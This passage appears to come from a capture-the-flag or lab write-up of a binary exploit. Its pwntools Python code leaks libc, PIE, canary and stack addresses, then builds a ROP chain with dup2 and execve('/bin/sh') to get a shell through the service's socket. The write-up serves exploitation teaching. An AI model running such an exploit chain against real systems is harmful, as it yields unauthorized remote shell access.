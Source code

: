 Now we can code up the leak:

```python
write('A'*0xff)        # index = 255
write('A'*0xff)        # index = 510
write('A'*0xff)        # index = 765
write('A'*(0xff - 116))    # index = 904
copy(56, offset=index)    # index = 960

leak = dump().strip(b'A'*904)
```

This just pads up to the area, then copies the area of memory to the same place \(just like before\), so it increments the index and we can then dump it. The below just parses that output so we can use them later:

```python
inet_aton = u64(leak[0:8]) - 165
libc.address = inet_aton - libc.sym["__inet_aton"]
log.info(f"libc base : {hex(libc.address)}")

pie_leak = u64(leak[32:40])
e.address = pie_leak - 0x1039
log.info(f"binary base : {hex(e.address)}")

canary = u64(leak[48:56])
log.info(f"canary : {hex(canary)}")

rbp = u64(leak[16:24]) + 0xc
buffer_start = rbp - 0x410
log.info(f"buffer : {hex(buffer_start)}")
```

We then make a new connection as the current one was terminated by the `dump`:

```python
p.close()    # we create a new connection to exploit, as the previous one is terminated by the dump
p = remote("127.0.0.1", port)
index = 0
```

Now we need to overflow and get a shell. First we'll form the payload that we'll deliver with pwntools `rop` class:

```python
binsh = next(libc.search(b'/bin/sh\x00'))

rop = ROP(libc)
rop.raw(canary)        # canary
rop.raw(rbp)        # base pointer, not needed
rop.dup2(4, 0)        # dup2(sockfd, stdin)
rop.dup2(4, 1)        # dup2(sockfd, stdout)
rop.execve(binsh, 0, 0)    # execve("/bin/sh", NULL, NULL)
```

We first call `dup2` twice to duplicate the socket file descriptor into stdout and stdin, so that once we execute the shell, we can actually interact with it. Then we obviously make our execve call to get our shell.
